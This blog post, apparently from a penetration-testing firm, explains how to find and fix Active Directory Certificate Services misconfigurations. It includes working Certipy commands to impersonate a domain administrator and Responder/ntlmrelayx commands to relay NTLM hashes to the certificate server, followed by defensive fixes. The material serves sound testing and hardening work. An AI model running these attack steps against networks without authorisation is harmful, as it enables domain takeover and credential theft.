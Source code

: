 ```yaml
---
image: "~/assets/images/adcs.webp"
title: How To Fix ADCS Vulnerabilities
excerpt: "ADCS attacks can make any pentester (or attacker) salivate. Lets talk about how to find and fix them."
author: Staff
tags:
 - penetration testing
publishDate: 2024-09-05T00:00:00Z
---
```



### Fixing Active Directory Certificate Services (ADCS) Attacks

We see the inside of _a lot_ of corporate networks. When we are gearing up to perform Internal Penetration Testing, one of the first things we look for (after we got our hands on a user account), is vulnerabilities in **Active Directory Certificate Services (ADCS)**. ADCS, which manages digital certificates, often contains misconfigurations that attackers can easily exploit to elevate privileges within the domain. At **Strategic Defense**, we frequently discover and exploit ADCS misconfigurations during internal penetration tests using tools like **Certipy** to demonstrate how attackers can take control of an environment.

#### Common ADCS Misconfigurations

Before diving into how to test your environment, it’s important to understand the most common ADCS misconfigurations that we exploit:
- **Overly Permissive Certificate Templates:** Low-privileged users can request certificates with high-privileged access.
- **Vulnerable Certificate Authority Permissions:** Weak permissions on certificate authorities (CAs) allow certificate forgery.
- **NTLM Relaying to ADCS:** If the CA allows NTLM authentication, attackers can relay NTLM hashes to request certificates on behalf of domain users.

You can see all the possible domain escalations [here](https://github.com/ly4k/Certipy/blob/main/README.md#domain-escalation).

#### How to Test for ADCS Misconfigurations

To check your environment for ADCS misconfigurations, we recommend using [Certipy](https://github.com/ly4k/Certipy) if you're comfy with Linux and Python, or [Certify](https://github.com/GhostPack/Certify) on Windows. For these examples, we will be showcasing Certipy. Certipy automates many common ADCS attacks, making it a one-stop-shop for internal ADCS testing.

##### 1. Install Certipy

First, you’ll need to install **Certipy**. You can clone the GitHub repo and set it up in your environment using:

```bash
git clone https://github.com/ly4k/Certipy.git
cd Certipy
pip install -r requirements.txt
```

Alternatively, you can install it via **pip**:

```bash
pip install certipy-ad
```

##### 2. Enumerate Certificate Templates

To enumerate all the certificate templates in your environment, use the following Certipy command:

```bash
certipy find -u <username> -p <password> -d <domain> -dc-ip <domain-controller-ip>
```

This command will list all templates and identify misconfigurations, such as **ESC1**, which allows low-privileged users to request high-privileged certificates. It's a good idea to try this using a low-privlileged account, or one thats a member of large groups ("Domain Users" for example) - as this casts the widest net for exploitation. Output might look like:

```
[+] Vulnerable certificate template found: "User" (Enrollment rights: Domain Users)
[+] ESC1: Low-privileged user can enroll in high-privilege templates
```

##### 3. Request a Certificate as Another User

Once you’ve identified vulnerable templates, you can exploit them by requesting a certificate as another user. In this example, we’ll use a template that allows us to impersonate a domain administrator:

```bash
certipy req -u <username> -p <password> -d <domain> -dc-ip <domain-controller-ip> -template <template-name> -upn <admin@domain.local>
```

This command will create a certificate for the domain admin account, which can then be used to authenticate and escalate privileges.

##### 4. Perform an NTLM Relay Attack to ADCS

Another common attack we see is NTLM relaying to ADCS. If relaying is possible, attackers can authenticate to the ADCS server and request certificates (among other nefarious things). To test this:

Set up **Responder** to capture NTLM hashes:
```bash
sudo responder -I <interface>
```

Use **ntlmrelayx** to relay these hashes to ADCS:

```bash
ntlmrelayx.py -t http://<adcs-server>/certsrv/certfnsh.asp -smb2support
```

If successful, the attacker will receive a valid certificate that can be used to authenticate as the captured user.

You can also skip Responder and Ntlmrelayx, and just use nmap to see if any hosts in your environment might allowe relaying, like so:

```bash
nmap -p 445 --script smb2-security-mode <target> 
```
#### Additional Ways to Test
There are additional tools you can use to check your environment:
 
 - [PSPKIAudit](https://github.com/GhostPack/PSPKIAudit) is a PowerShell toolkit for auditing ADCS. 
 - [Bloodhound](https://github.com/SpecterOps/BloodHound) has been updated to take results from Certipy for checking ADCS misconfigurations.
 - [Locksmith](https://github.com/TrimarcJake/Locksmith) can find (and fix) ADCS issues.

#### Defensive Measures

Fixing these misconfigurations is essential to prevent exploitation. Here are some defensive steps:

1. **Restrict Certificate Template Access:**
   Ensure only authorized users or groups can enroll in high-privileged templates. You can check template permissions using PowerShell:

   ```powershell
   Get-CATemplate | ForEach-Object {
       $_.DisplayName
       Get-ACL -InputObject $_.CertificateTemplate -AccessRights All
   }
   ```

2. **Disable NTLM Authentication:**
   Disable NTLM on your ADCS servers to prevent NTLM relay attacks. You can enforce Kerberos authentication by updating your CA’s security policies and settings.

3. **Monitor and Audit ADCS Activity:**
   Regularly monitor certificate requests and issuance by enabling auditing:

   ```powershell
   auditpol /set /subcategory:"Certification Services" /success:enable /failure:enable
   ```

4. **Update Outdated CA Servers:**
   Ensure that your CA servers are up to date with the latest patches and that only necessary features are enabled.

#### Conclusion

At **Strategic Defense**, we frequently leverage ADCS misconfigurations during internal penetration tests, using tools like **Certipy** to demonstrate how attackers can escalate privileges through certificate-based attacks. We arent the only ones; real-world threat actors use the same tools to take advantage of the same issues. Testing your environment for ADCS vulnerabilities is essential to securing your Active Directory infrastructure. By identifying and fixing these issues, you can prevent attackers from exploiting one of the most overlooked attack vectors.

If you want to learn more about securing your AD environment or need help assessing your infrastructure, feel free to [contact us](/contact). We’re here to help.


